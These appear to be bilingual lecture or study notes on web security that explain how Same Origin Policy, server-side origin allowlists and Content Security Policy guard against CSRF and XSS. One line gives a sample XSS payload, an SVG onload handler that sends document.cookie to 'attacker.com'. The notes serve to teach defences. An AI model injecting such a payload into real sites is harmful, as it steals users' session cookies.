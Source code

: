 #### Content Security Policy (CSP)
- Same Origin Policy prohibits cross-origin fetch. 但是SOP不禁止跨源提交表单，于是可以CSRF攻击。SOP也不禁止跨源加载静态资源，可以利用`<svg onload="'attacker.com?q='+document.cookie">`盗取cookie.
- Previously, we talked about ways to tighten up Same Origin Policy in terms of which sites could e.g. send requests with cookies to our site (CSRF)
    - That is, preventing other sites from making certain requests to our site 防御CSRF，在server端用origin allowlist
- CSP is inverse: prevent our site from making requests to other sites
    - CSP is an added layer of security against XSS
    - Even if attacker code is running in user's browser in our site's context, we can limit the damage they can do

In summary
1. SOP prevents cross site fetch
2. server side origin allowlist prevents CSRF
3. CSP prevents XSS